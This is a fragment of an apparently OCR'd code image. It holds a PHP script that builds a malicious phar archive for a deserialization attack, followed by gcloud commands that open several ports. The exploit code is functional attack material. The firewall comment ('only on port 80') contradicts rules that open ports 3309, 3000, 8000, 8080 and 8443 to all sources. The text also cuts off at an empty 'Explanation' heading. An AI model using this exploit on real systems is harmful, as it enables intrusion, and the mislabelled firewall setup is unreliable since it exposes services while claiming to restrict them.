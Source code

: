 ```bash
        $this->logFile = "phar://hack.phar/test.txt";
    }
}

$logger = new Logger();

@unlink("hack.phar");

$phar = new Phar("hack.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->addFromString("test.txt", "test");
$phar->setMetadata($logger);
$phar->stopBuffering();
?>
PHPEOF

# Generate phar file. 
php -d phar.readonly=0 exploit.php


# Configure firewall to allow traffic only on port 80
gcloud compute firewall-rules create "mysql-server" \
  --allow tcp:3309 \
  --target-tags "mysql-server" \
  --direction INGRESS

gcloud compute firewall-rules create "allow-3000" \
  --allow tcp:3000 \
  --target-tags "allow-3000" \
  --direction INGRESS

gcloud compute firewall-rules create "allow-8080" \
  --allow tcp:8080 \
  --target-tags "allow-8080" \
  --direction INGRESS

gcloud compute firewall-rules create "allow-8000" \
  --allow tcp:8000 \
  --target-tags "allow-8000" \
  --direction INGRESS

gcloud compute firewall-rules create "allow-8443" \
  --allow tcp:8443 \
  --target-tags "allow-8443" \
  --direction INGRESS
```

---

## **Explanation**
